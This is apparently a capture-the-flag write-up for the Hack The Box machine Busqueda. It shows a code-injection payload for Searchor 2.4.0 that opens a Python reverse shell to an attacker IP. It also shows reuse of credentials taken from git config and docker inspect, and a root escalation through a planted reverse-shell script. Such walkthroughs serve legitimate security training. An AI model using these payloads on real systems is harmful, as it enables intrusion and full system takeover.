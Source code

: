 # Busqueda HTB machine

**A machine with a web service that uses a vulnerable python library for generating search queries.**

- After exploring the web page, we can find information about the website. As it is stated at the bottom of the page "Powered by Flask and Searchor 2.4.0". After gathering information about Searchor 2.4.0, we found out that it is vulnerable to Arbitrary Code Execution(CWE-94), as stated in the following article:

https://security.snyk.io/vuln/SNYK-PYTHON-SEARCHOR-3166303

We can find the exploit of Searchor 2.4.0 in the following github link:

https://github.com/jonnyzar/POC-Searchor-2.4.2

Let's inject a reverse shell into the website "What do you want to search for:" field, using the following code:

```
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.54',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

Before sending the payload, make sure to execute "nc -lvpn 4444" with your terminal and change your ip with the one you have.

After sending the payload, we have user access as user "svc". We can now obtain the user flag. After examinating the structure of the server, we find a useful configuration file in the "/var/www/" folder which is a common directory found in Linux-based operating systems, typically used for storing web content. We can use the following command to locate files that have "config" as a substring of their name:

```
find /var/www/ -type f -iname "*config*" 2>/dev/null
```

The output is "/var/www/app/.git/config". We can perform "cat /var/www/app/.git/config" to view the file. We can see the following line in the file that provides credentials and a subdomain of the website called gitea.searcher.htb. 

```
url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
```

This article explains how git credentials are stored in configuration files.

https://www.shellhacks.com/git-config-username-password-store-credentials/


We can try using the password as the password for the "svc" user to ssh to the machine and achieve connection. By executing "ssh svc@10.10.11.208" and providing the password "jh1usoih2bkjaspwe92" we can achieve connection.

Let's see the root permissions of the "svc" user to check if we can achieve privilege escalation by any means. After executing "sudo -l" we get the following message:

```
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

Executing the command "sudo /usr/bin/python3 /opt/scripts/system-checkup.py *" we get the following help message:

```
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

Executing "sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps" will list all running docker containers and the id associated with each docker container.

Executing "sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect" will generate the following help message:

```
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
```

From this docker website we can find the correct format to inspect a certain docker container.

By getting the container id from the previous steps, we can find information about the docker container by executing the following command:

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' 960873171e2e
```

From the output of the command, we get a line that contains a password value for the git database at the gitea.searcher.htb subdomain.

```
"GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh”
```

Add the gitea.searcher.htb subdomain to the /etc/hosts folder, then load the page and go to the "sign in" page. After trying the usernames presented in the output of the previous command, we need to find the correct username. We can try to sign-in as "cody" and password "jh1usoih2bkjaspwe92" as we discovered previously. We can see that in the dashboard there is a user named "administrator". Let's try use "administrator" as username and password "yuiu1hoiu4i5ho1uh". We now successfully logged in as "administrator" and we can find a private folder named "scripts" and view the scripts used in the server associated with the command "/usr/bin/python3 /opt/scripts/system-checkup.py *". After examinating the scripts, we find a vulnerability in the script "system-checkup.py" in the following block:

```
elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
```

This block executes a command specified in the arg_list list by calling the run_command() function. If the execution is successful, it prints the output and a "Done!" message. However, if an exception occurs during the execution, it prints a generic "Something went wrong" message and exits with a non-zero status code.

The code relies on the run_command() function to execute the command specified in arg_list. The security and vulnerability of this code depend on how the run_command() function is implemented. If the function does not properly validate or sanitize the input, it may be susceptible to command injection attacks.

Let's try creating a script named "full-checkup.sh" in the directory "/home/svc" for the necessary permissions. We can execute "touch full-checkup.sh" and then use "vi" editor to create the file. Paste the following reverse shell code with appropriate ip and port numbers:

```
#!/usr/bin/python3
import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.54",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("sh")
```

Now save the script and execute "chmod +x full-checkup.sh" to make it executable. Execute "nc -lvpn 4444" in your terminal to listen for incoming requests. Now, execute the script on the machine with the following command:

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Congrats! We connected to the machine as "root" user and we can display the root flag under the "/root" directory.
